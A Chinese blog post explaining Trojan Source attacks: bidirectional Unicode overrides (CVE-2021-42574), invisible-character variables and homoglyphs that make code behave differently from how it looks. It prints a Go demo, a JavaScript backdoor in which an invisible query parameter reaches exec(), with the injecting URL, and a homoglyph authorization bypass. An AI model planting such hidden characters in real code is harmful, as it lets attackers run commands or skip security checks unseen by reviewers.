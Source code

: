 ```yaml
---
layout: post
title: 源代码特洛伊木马攻击
date: 2021/11/19/ 9:2:46
updated: 2021/11/19/ 9:2:46
status: publish
published: true
type: post
---
```


![](https://coolshell.cn/wp-content/uploads/2021/11/il_340x270_pggv.jpg)最近，我们在 Github 的 Code Review 中看到 Github 开始出现下面这个 Warning 信息—— “This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below.”也就是说我们的代码中有一些 bidirectional unicode 的文本，中文直译作 “双向文本”，意思是一些语言是从左到右的，而另一些则是是从右到左的（如：阿拉伯语），如果同一个文件里，即有从左向右的文本也有从右向左文本两种的混搭，那么，就叫bi-direction。术语通常缩写为“ **BiDi** ”或“ **bidi** ”。使用双向文本对于中国人来说并不陌生，因为中文又可以从左到右，也可以从右到左，还可以从上到下。


![](https://coolshell.cn/wp-content/uploads/2021/11/1637305049427-1024x329.jpg)


早期的计算机仅设计为基于拉丁字母的从左到右的方式。添加新的字符集和字符编码使许多其他从左到右的脚本能够得到支持，但不容易支持从右到左的脚本，例如阿拉伯语或希伯来语，并且将两者混合使用更是不可能。从右到左的脚本是通过[ISO/IEC 8859-6](https://en.wikipedia.org/wiki/ISO/IEC_8859-6 "ISO/IEC 8859-6")和[ISO/IEC 8859-8](https://en.wikipedia.org/wiki/ISO/IEC_8859-8 "ISO/IEC 8859-8")等编码引入的，通常以书写和阅读顺序存储字母。可以简单地将从左到右的显示顺序翻转为从右到左的显示顺序，但这样做会牺牲正确显示从左到右脚本的能力。通过双向文本支持，可以在同一页面上混合来自不同脚本的字符，而不管书写方向如何。



双向文本支持是计算机系统正确显示双向文本的能力。对于Unicode来说，其标准为完整的 BiDi 支持提供了基础，其中包含有关如何编码和显示从左到右和从右到左脚本的混合的详细规则。你可以使用一些控制字符来帮助你完成双向文本的编排。


好的，科普完“双向文本”后，我们正式进入正题，为什么Github 会出这个警告？Github的官方博客“[关于双向Unicode的警告](https://github.blog/changelog/2021-10-31-warning-about-bidirectional-unicode-text/)”中说，使用一些Unicode中的用于控制的隐藏字符，可以让你代码有着跟看上去完全不一样的行为。


我们先来看一个示例，下面这段 Go 的代码就会把 “Hello, World”的每个字符转成整型，然后计算其中多少个为 1 的 bit。



```
package main

import "fmt"

func main() {
  str, mask := "Hello, World!‮10x‭", 0

  bits := 0
  for _, ch := range str {
    for ch > 0 {
      bits += int(ch) & mask
      ch = ch >> 1
    }
  }
  fmt.Println("Total bits set:", bits)
}
```

这个代码你看上去没有什么 奇怪的地方，但是你在执行的时候（可以直接上Go Playground上执行  –<https://play.golang.org/p/e2BDZvFlet0>），你会发现，结果是 0，也就是说“Hello, World”中没有值为 1 的 bit 位。这究竟发生了什么事？


如果你把上面这段代码拷贝粘贴到字符界面上的 vim 编辑器里，你就可以看到下面这一幕。


![](https://coolshell.cn/wp-content/uploads/2021/11/1637307319589.jpg)


其中有两个浅蓝色的尖括号的东西—— `<202e>` 和 `<202d>` 。这两个字符是两个Unicode的控制字符（注：完整的双向文本控制字符参看 [Unicode Bidirectional Classes](https://www.compart.com/en/unicode/bidiclass)）：


* **U+202E – Right-to-Left Override [RLO]**  

表示，开始从右到左显示，于是，接下来的文本 `10x", 0` 变成了 `0 ,"x01`
* **U+202D – Left-to-Right Override [LRO]**  

表示，开始从左到右显示，于是，`0,"x01` 中的前4个字符`0 ,"` 反转成  `", 0`，于是整个文本成了 `", 0x01`


所以，你在视觉上看到的是结果是—— `"Hello, World!”, 0x01`， 但是实际上是完全是另外一码事。


然后，Github官方博客中还给了一个安全问题 [CVE-2021-42574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42574) ——



> 在 Unicode 规范到 14.0 的双向算法中发现了一个问题。它允许通过控制序列对字符进行视觉重新排序，可用于制作源代码，呈现与编译器和解释器执行逻辑完全不同的逻辑。攻击者可以利用这一点对接受 Unicode 的编译器的源代码进行编码，从而将目标漏洞引入人类审查者不可见的地方。
> 
> 


这个安全问题在剑桥大学的这篇论文“[Some Vulnerabilities are Invisible](https://www.trojansource.codes/)”中有详细的描述。其中PDF版的文章中也给了这么一个示例：


通过双向文本可以把下面这段代码：


![](https://coolshell.cn/wp-content/uploads/2021/11/1637308872541.jpg)


伪装成下面的这个样子：


![](https://coolshell.cn/wp-content/uploads/2021/11/1637308847435.jpg)


在图 2 中`'alice'`被定义为价值 100，然后是一个从 Alice 中减去资金的函数。最后一行以 50 的值调用该函数，因此该小程序在执行时应该给我们 50 的结果。


然而，图 1 向我们展示了如何使用双向字符来破坏程序的意图：通过插入**RLI (Right To Left Isolate)***–* **U+2067***，*我们将文本方向从传统英语更改为从右到左。尽管我们使用了减去资金功能，但图 1 的输出变为 100。


除此之外，支持Unicode还可以出现很多其它的攻击，尤其是通过一些“不可见字符”，或是通过“同形字符”在源代码里面埋坑。比如文章“[The Invisible Javascript Backdoor](https://certitude.consulting/blog/en/invisible-backdoor/)”里的这个示例：



```
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```

上面这个代码实现了一个非常简单的网络健康检查，HTTP会执行 `ping -c 1 google.com` 以及 `curl -s http://example.com` 这两个命令来查看网络是否正常。其中，可选输入 HTTP 参数`timeout`限制命令执行时间。


然后，上面这个代码是有不可见的Unicode 字符，如果你使用VSCode，把编码从 Unicode 改成 DOS (CP437) 后你就可以看到这个Unicode了


![](https://coolshell.cn/wp-content/uploads/2021/11/1637310735683-1024x923.jpg)


于是，一个你看不见的 `πàñ` 变量就这样生成了，你再仔细看一下整个逻辑，这个看不见的变量，可以让你的代码执行他想要的命令。因为，http 的请求中有第二个参数，这个参数可奖在后面被执行。于是我们可以构造如下的的 HTTP 请求：


**http://host:port/network\_health?%E3%85%A4=<any command>**


其中的，%E3%85%A4 就是 `\u3164` 这个不可见Unicode 的编码，于是，一个后门代码就这样在神不知鬼不觉的情况下注入了。


另外，还可以使用“同形字符”，看看下面这个示例：



```
if(environmentǃ=ENV_PROD){
    // bypass authZ checks in DEV
    return true;
}
```

如何你以为 `ǃ` 是 惊叹号，其实不是，它是一个Unicode `╟â`。这种东西就算你把你的源码转成 DOS(CP437) 也没用，因为用肉眼在一大堆正常的字符中找不正常的，我觉得是基本不可能的事。


现在，是时候检查一下你的代码有没有上述的这些情况了……


（全文完）


 


 



**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![Web开发人员速查卡](https://coolshell.cn/wp-content/uploads/2011/02/1128-150x150.jpg)](https://coolshell.cn/articles/3684.html)[Web开发人员速查卡](https://coolshell.cn/articles/3684.html)
* [![黑客的价值观](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/16.jpg)](https://coolshell.cn/articles/2439.html)[黑客的价值观](https://coolshell.cn/articles/2439.html)
* [![Web程序的最佳测试数据](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/9.jpg)](https://coolshell.cn/articles/1957.html)[Web程序的最佳测试数据](https://coolshell.cn/articles/1957.html)
* [![Unicode字符预览表](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/11.jpg)](https://coolshell.cn/articles/1331.html)[Unicode字符预览表](https://coolshell.cn/articles/1331.html)
* [![敏捷水管工](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/30.jpg)](https://coolshell.cn/articles/3778.html)[敏捷水管工](https://coolshell.cn/articles/3778.html)
* [![分布式系统的事务处理](https://coolshell.cn/wp-content/uploads/2014/01/trade-off-150x150.jpg)](https://coolshell.cn/articles/10910.html)[分布式系统的事务处理](https://coolshell.cn/articles/10910.html)
The post [源代码特洛伊木马攻击](https://coolshell.cn/articles/21649.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).